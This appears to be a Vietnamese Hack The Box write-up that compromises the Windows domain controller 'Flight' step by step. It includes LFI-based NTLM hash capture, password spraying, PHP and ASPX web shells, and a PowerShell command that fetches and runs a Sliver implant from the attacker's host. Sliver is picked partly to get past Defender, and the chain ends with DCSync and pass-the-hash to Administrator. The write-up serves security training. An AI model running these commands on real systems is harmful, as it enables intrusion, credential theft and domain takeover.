

# Flight

## Synopsis

Flight là một machine Windows hard khởi động bằng một trang web có hai virtual hosts khác nhau. Một trong số chúng dễ bị tấn công bởi LFI và cho phép attacker lấy được hash NTLM. Sau khi bị crack, mật khẩu plaintext thu được sẽ được rải qua list username hợp lệ để phát hiện tình huống sử dụng lại mật khẩu. Khi attacker có quyền truy cập SMB với tư cách là user `s.moon`, hắn có thể ghi vào một share mà những user khác truy cập. Một số file nhất định có thể được sử dụng để đánh cắp hash NTLMv2 từ những user truy cập vào phần share. Khi hash thứ hai bị crack, attacker sẽ có thể write một reverse shell trong một share lưu trữ các file web và lấy shell trên box với tư cách là user có đặc quyền thấp. Có thông tin xác thực cho user `c.bum`, sẽ có thể có được shell với tư cách là user này, điều này sẽ cho phép attacker write shell web `aspx` trên một trang web được định cấu hình để chỉ nghe trên localhost. Sau khi attacker thực thi lệnh với tư cách là Microsoft Virtual Account, hắn có thể chạy Rubeus để lấy ticket cho tài khoản machine có thể được sử dụng để thực hiện cuộc tấn công DCSync, cuối cùng lấy được hash cho người dùng Administrator.

### Skills Required

- Enum

- Tunneling

- Kerberos authen

### Skills Learned

- NTLM theft

- Lạm dụng Windows Service accounts

- Bỏ qua Defender

## Enumeration

```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.42.88 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.42.88
```


Output Nmap cho thấy hệ thống đang sử dụng Windows và số lượng port mở cao cho biết đây là Domain Controller. Tại thời điểm này, không có bất kỳ thông tin xác thực hợp lệ nào cho machine nên chuyển sự chú ý sang port 80 nơi tìm thấy server Apache đang chạy.

Trước khi bắt đầu enum, nhận thấy rằng output Nmap hiển thị hostname `flight.htb`, vì vậy sửa đổi file `/etc/hosts` cho phù hợp.

```
echo "10.129.42.88 flight.htb" | sudo tee -a /etc/hosts
```

Điều đáng chú ý là có chênh lệch múi giờ 7 tiếng với machine. Nếu tại một thời điểm nào đó trong quá trình khai thác mà sử dụng Kerberos, phải nhớ đồng bộ hóa thời gian local với thời gian của machine.

### Apache - Port 80

Khi truy cập `http://flight.htb`, sẽ thấy trang web sau.


Mọi thứ trong trang web này có vẻ như là static và không hoạt động. Có thể sử dụng ffuf để enum các Vhost có thể tồn tại.

```
ffuf -u "http://flight.htb" -H "Host: FUZZ.flight.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -c -t 50 -fs 229
```



Phát hiện ra một vhost mới có tên là `school`. Thêm mục mới này vào file `/etc/hosts`.

```
echo "10.129.42.88 school.flight.htb" | sudo tee -a /etc/hosts
```

Visit vhost mới.


Lần này, các option `Home`, `About Us` và `Blog` hoạt động và sử dụng tham số `?view=` trên `index.php` để load đúng trang. Ví dụ, khi click để load trang `About Us`, url trông như thế này:

```
http://school.flight.htb/index.php?view=about.html
```

Theo cấu trúc của url, có thể suy ra rằng trang HTML hiển thị được đưa vào `index.php` thông qua tham số `view`. Thiết lập này thường dễ bị tấn công `Local File Inclusion (LFI)`. Thử đọc file `C:\Windows\System32\drivers\etc\hosts` bằng cách chỉ định đường dẫn này trong tham số `view`.


Có vẻ như có filter để ngăn chặn các cuộc tấn công như vậy. Thông thường, filter phát hiện việc sử dụng ký tự `\`. Tuy nhiên, trên Windows, vẫn có thể truy cập đường dẫn nếu thay thế `\` bằng `/`. Thử payload đã sửa đổi.

```
http://school.flight.htb/index.php?view=C:/Windows/System32/drivers/etc/hosts
```


Đã bypass thành công filter LFI. Vì đây là machine Windows, cũng có thể thử load file từ đường dẫn UNC (https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats). Nếu cách này hiệu quả, machine sẽ phải xác thực để truy cập vào share chỉ định. Hơn nữa, machine sẽ xác thực là user mà dịch vụ `Apache` đang chạy. Sử dụng một công cụ có tên là `Responder` để chặn bất kỳ xác thực nào có thể xảy ra.

```
responder -I tun0 -v
```

Sau đó, gửi payload sau.

```
http://school.flight.htb/index.php?view=//10.10.14.59/htb
```


Thật vậy, có một hash cho user `svc_apache`. Có thể sử dụng `john` để crack nó.

```
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```


Có mật khẩu plaintext cho user `svc_apache`.

## Foothold

Bây giờ đã có một bộ thông tin xác thực hợp lệ, tiếp tục enum bằng cách kiểm tra xem user `svc_apache` có thể truy cập bất kỳ share nào trên SMB hay không.

```
smbmap -H flight.htb -u 'svc_apache' -p 'S@Ss!K@*t13'
```


Thật không may, user `svc_apache` không có quyền write vào bất kỳ share nào. Tiếp tục enum bằng cách lấy danh sách những user có mặt trên hệ thống. Để làm điều này, có thể sử dụng `impacket-lookupsid`.

```
impacket-lookupsid svc_apache:'S@Ss!K@*t13'@'flight.htb'
```


Bây giờ có danh sách username hợp lệ. Vì tài khoản `svc_apache` được tạo để chạy dịch vụ Apache nên hoàn toàn có thể là user tạo tài khoản dịch vụ này đã sử dụng lại mật khẩu cá nhân. Có thể thử sử dụng password spray đối với username đã có và kiểm tra xem mật khẩu cho `svc_apache` có được sử dụng lại không.

Trước hết, tạo một file có tên là `users` với nội dung sau:

```
S.Moon
R.Cold
G.Lors
L.Kein
M.Gold
C.Bum
W.Walker
I.Francis
D.Truff
V.Stevens
svc_apache
O.Possum
```

Sau đó, có thể sử dụng crackmapexec để thực hiện việc spray mật khẩu.

```
crackmapexec smb flight.htb -u ./users -p 'S@Ss!K@*t13'
```


Có kết quả positive với user `S.Moon`. Chạy lại `smbmap` để kiểm tra xem có giành được nhiều đặc quyền hơn đối với user `svc_apache` không.

```
smbmap -H flight.htb -u 'S.Moon' -p 'S@Ss!K@*t13'
```


Bây giờ có quyền `WRITE` vào share `Shared`. Sử dụng `impacket-smbclient` để kiểm tra những gì bên trong share này.

```
impacket-smbclient s.moon:'S@Ss!K@*t13'@flight.htb
```


Share hoàn toàn empty.

## Lateral Movement

Tại thời điểm này, đã chuyển sang user `s.moon` và điều duy nhất đạt được là quyền truy cập `WRITE` trên share `Share` đang empty. Đánh giá từ tên của share, hoàn toàn có thể có nhiều user truy cập vào share này.

Trong Windows, nhiều file tự động được "thực thi" khi chúng được đặt bên trong một directory và directory đó được truy cập. Các file này có thể trỏ đến một network share cho một tài nguyên, buộc machine phải xác thực để truy cập tài nguyên. Trên thực tế, có một công cụ có tên là ntl_theft (https://github.com/Greenwolf/ntlm_theft) tạo ra một số file có khả năng được sử dụng để đánh cắp hash NTLMv2 của user chỉ bằng cách truy cập vào một folder.

Vì vậy, trước hết, thiết lập `Responder` để intercept mọi yêu cầu xác thực tiềm ẩn.

```
responder -I tun0 -v
```

Sau đó, clone tool `ntl_theft` và tạo các malicious file.

```
git clone https://github.com/Greenwolf/ntlm_theft

cd ./ntlm_theft

python3 ntlm_theft.py --generate all --server 10.10.14.67 --filename htb
```


Bên trong dấu ngoặc đơn, tool thông báo cho biết hành động nào là cần thiết để kích hoạt file. Bắt đầu bằng cách tập trung vào những file yêu cầu ít tương tác nhất, chỉ bằng cách browse đến folder đó.

Bước tiếp theo là upload tất cả các file có yêu cầu `(BROWSE TO FOLDER)` lên share `Share`.

```
impacket-smbclient s.moon:'S@Ss!K@*t13'@flight.htb

use Shared

put "NAME_OF_THE_FILE"
```


Sau một số lần thử và sai, có thể thấy rằng chỉ những file có extension `.ini` mới được phép share. Nhưng không lâu sau, sẽ nhận được hash từ `responder`.


Thử crack hash của user `c.bum` bằng `john` một lần nữa.

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```


Hash đã crack thành công: `Tikkycoll_431012284`.

Một lần nữa, xem những đặc quyền mới nào với user này trên SMB.

```
smbmap -H flight.htb -u 'c.bum' -p 'Tikkycoll_431012284'
```


Đã có quyền WRITE vào share `Web`.

Trước khi tiến hành khai thác, lấy user flag từ share `Users/C.bum/Desktop`.


## Privilege Escalation

Bây giờ, xem bên trong shre `Web` có quyền `WRITE`.


Có vẻ như có quyền write vào root folder web của `flight.htb` và `school.flight.htb`. Upload lên một shell PHP rất đơn giản để có thể thực thi mã trên machine.

```
<?php
echo system($_GET['c']);
>
```


```
Lưu ý: Các shell được xóa định kỳ khỏi máy chủ web, vì vậy nếu gặp lỗi `Not Found`, upload lại file shell.
```

Bây giờ, có thể sử dụng `curl` để thực thi mã.

```
curl 'http://flight.htb/shell.php?c=whoami'
```


Có code execution, nhưng muốn một shell ổn định hơn. Sử dụng sliver (https://github.com/BishopFox/sliver) C2 framework. Sliver là một lựa chọn tốt vì theo mặc định, nó obfuscate các implant được tạo ra. Vì vậy, trong trường hợp Windows Defender được cài đặt, có thể thực thi nó mà không bị phát hiện. Để cài đặt sliver, tất cả những gì phải làm là chạy lệnh sau.

```
curl https://sliver.sh/install|sudo bash

silver
```

```
Lưu ý: Máy chủ sliver được cài đặt như một dịch vụ trên lacal machine. Nếu khởi động lại machine và không thể kết nối với sliver, đảm bảo khởi động dịch vụ server service sliver start trước khi thực hiện sliver.
```

Khi đã vào bên trong `sliver` framework, phải tạo một implant và khởi động listerner cho impant đó.

```
generate -os windows --arch 64bit --mtls 10.10.14.67 --reconnect 60 --save htb.exe

mtls
```


Sau đó, thiết lập một server Python để host implant.

```
sudo python3 -m http.server 80
```

Cuối cùng, sử dụng web shell để download implant và thực thi nó.

```
curl 'http://flight.htb/shell.php?c=powershell%20-c%20%22wget%2010.10.14.67%2Fhtb.exe%20-usebasicparsing%20-outfile%20C%3A%5Cusers%5Cpublic%5Cmusic%5Chtb.exe%3B%20C%3A%5Cusers%5Cpublic%5Cmusic%5Chtb.exe'
```

```
Lưu ý: Payload ở trên là phiên bản được mã hóa URL của powershell -c "wget ​​10.10.14.67/htb.exe -usebasiparsing -outfile C:\users\public\music\htb.exe; C:\users\public\music\htb.exe
```

Sau khi quá trình transfer hoàn tất, nhận được session trở lại trên listener sliver.


Bây giờ, đã có được một shell tốt để tương tác với remote host, nhưng đã mất đi user advancement. Có thông tin xác thực cho user `c.bum` nhưng có một shell là user `svc_apache`. Vì có thông tin xác thực, có thể sử dụng RunasCs (https://github.com/antonioCoco/RunasCs) để có được một session sliver mới là user `c.bum`.

```
upload /opt/RunasCs.exe

shell

.\RunasCs.exe c.bum Tikkycoll_431012284 -l 2 "C:\users\public\music\htb.exe"
```

```
Lưu ý: Trong sliver, để thoát khỏi phiên shell, sử dụng tổ hợp phím "CTRL+d" rồi đợi khoảng 10 giây trước khi nhấn enter.
```


Cuối cùng, có một shell với tư cách là user `c.bum`. Bắt đầu enum machine.


Nhận thấy user `c.bum` là member của một group non-default có tên là `WebDevs`. Hơn nữa, nhận thấy directory `C:\inetpub`, cho biết server IIS cũng có mặt trên hệ thống. Khi xem output của `Get-NetTCPConnection -State Listen`, có thể thấy port `8000` cũng đang listening và đó không phải là default port.


Có thể sử dụng `sliver` để tạo proxy SOCKS để xác minh các giả định. Đầu tiên, thoát khỏi shell và sau đó tạo tunnel SOCKS.

```
sock5 start
```


Bây giờ đã thiết lập được tunnel SOCKS, có thể thử truy cập vào server IIS nội bộ. Có thể sử dụng add-on Firefox có tên là FoxyProxy (https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/). Bước đầu tiên sau khi cài đặt là cấu hình để sử dụng proxy SOCKS.


Sau đó, định tuyến lưu lượng truy cập qua proxy và thử truy cập `http://127.0.0.1:8000`.


Thật vậy, có một trang web đang listening trên `localhost:8000`. Tìm kiếm qua các directoy và file bên trong `C:\inetpub` và so sánh chúng với trang web đã truy cập, có thể kết luận một cách an toàn rằng `C:\inetpub\development` là thư mục được lưu trữ. Vì user `c.bum` là member của một group có tên là `WebDevs` nên có thể có quyền write vào folder `C:\inetpub\development`. Mục tiêu là lấy một session sliver làm tài khoản chạy server IIS. Sử dụng sliver một lần nữa để upload webshell ASPX đơn giản sau.

```
<%@Page Language="C#"%><%var p=new System.Diagnostics.Process{StartInfo={FileName=Request["c"],UseShellExecute=false,RedirectStandardOutput=true}};p.Start();%><%=p.StandardOutput.ReadToEnd()%>
```


Bây giờ, có thể kích hoạt implant Sliver từ trình duyệt bằng cách truy cập URL sau với proxy SOCKS được bật.

```
http://127.0.0.1:8000/shell.aspx?c=C:\users\public\music\htb.exe
```


Có một session mới là "user" `IIS APPPOOL\DefaultAppPool`. "User" này thực chất là một Microsoft Virtual Account và theo Microsoft:

```
Các dịch vụ chạy dưới virtual account sẽ truy cập tài nguyên mạng bằng cách sử dụng thông tin đăng nhập của computer account theo định dạng <domain_name>\<computer_name>$.
```

Điều này có nghĩa là có thể sử dụng Rubeus (https://github.com/GhostPack/Rubeus) từ session hiện tại để yêu cầu một ticket cho chính mình (machine account) và thực hiện một cuộc tấn công DCSync.

Trên thực tế, `armory` đi kèm với `sliver` có một module `Rubeus` giúp khai thác dễ dàng hơn một chút. Trước hết, phải cài đặt module.

```
sliver > armony install rubeus
```

Sau đó, có thể thực thi nó trên session hiện tại như cách thực hiện với chính file binary.

```
rubeus tgtdeleg /nowrap
```


Bây giờ đã có ticket hợp lệ cho machine account, cần chuyển đổi ticket từ định dạng `base64 - kirbi` sang `ccache` để sử dụng với impacket. Để chuyển đổi, ghi ticket output vào file có tên `ticket.b64` và sau đó thực hiện chuỗi lệnh sau để lấy hash của Administrator.

```
cat ticket.b64 | base64 -d > ticket.kirbi

kirbi2ccache ticket.kirbi ticket.ccache

sudo ntpdate -u flight.htb

KRB5CCNAME=ticket.ccache impacket-secretsdump -k -no-pass g0.flight.htb -just-dc-user Administrator -target-ip 10.129.42.88
```

```
Lưu ý lệnh ntpdate để đồng bộ hóa đồng hồ máy local với đồng hồ của DC. Một bước cần thiết vì sẽ sử dụng xác thực Kerberos.
```


Cuối cùng, có thể sử dụng các hash đã trích xuất để xác thực với tư cách là user `Administrator` bằng cách sử dụng `impacket-psexec`.

```
impacket-psexec Administrator@flight -hashes aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c
```


Root flag có thể được tìm thấy trong `C:\Users\Administrator\Desktop\root.txt`.

## Appendix - Alternative Privilege Escalation

"User" `IIS APPPOOL\DefaultAppPool` là một dịch vụ/tài khoản ảo. Điều này có nghĩa là nó đã bật `SeImpersonatePrivilege`.


Quyền này liên quan đến một họ khai thác được gọi là "potatoes". Có thể đọc thêm về chúng tại đây (https://jlajara.gitlab.io/Potatoes_Windows_Privesc). Về cơ bản, những gì đang cố gắng đạt được là buộc machine xác thực là `NT AUTHORITY\SYSTEM` với một quy trình đã kiểm soát và sau đó, vì có `SeImpersonatePrivilege`, tạo một quy trình mới chạy dưới dạng `NT AUTHORITY\SYSTEM`. Đối với ví dụ này, sử dụng SweetPotato (https://github.com/CCob/SweetPotato) thực chất là một tập hợp các loại potatoes. Sau khi build project bằng `VisualStudio`, có thể sử dụng `sliver` một lần nữa để upload file thực thi lên và lấy một session mới dưới dạng `SYSTEM`.

```
sliver > cd "C:\users\public\music"

sliver > upload /opt/SweetPotato.exe

sliver > shell

.\SweetPotato.exe -e EfsRpc -p "C:\users\public\music\htb.exe"
```


Cuối cùng, có một session tài khoản `NT AUTHORITY\SYSTEM` và có thể đọc root flag.